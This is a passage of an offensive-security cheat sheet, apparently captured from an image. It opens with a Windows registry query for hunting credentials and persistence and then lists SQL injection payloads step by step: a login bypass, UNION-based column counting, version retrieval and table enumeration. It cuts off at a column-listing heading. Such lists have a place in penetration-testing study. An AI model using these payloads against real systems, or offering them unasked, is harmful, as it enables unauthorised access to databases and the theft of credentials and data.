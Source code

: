 ```
reg query HKLM\Software /s
```

Search registry for credentials, configurations, and persistence opportunities.

---

### SQL Injection - Login Bypass

```
' OR 1=1 #
```

Bypass login authentication using always-true condition.

---

### SQL Injection - Count Columns

```
' UNION SELECT NULL #
```

Determine the number of columns for UNION SELECT injection.

---

### SQL Injection - Test String Column

```
' UNION SELECT 'abc', NULL #
```

Identify which column accepts string data in UNION SELECT.

---

### SQL Injection - Get DB Version

```
' UNION SELECT @@version, NULL #
```

Retrieve database version using UNION SELECT injection.

---

### SQL Injection - List Tables

```
' UNION SELECT table_name, NULL FROM information_schema.tables #
```

Enumerate all table names in the database.

---

### SQL Injection - List Columns
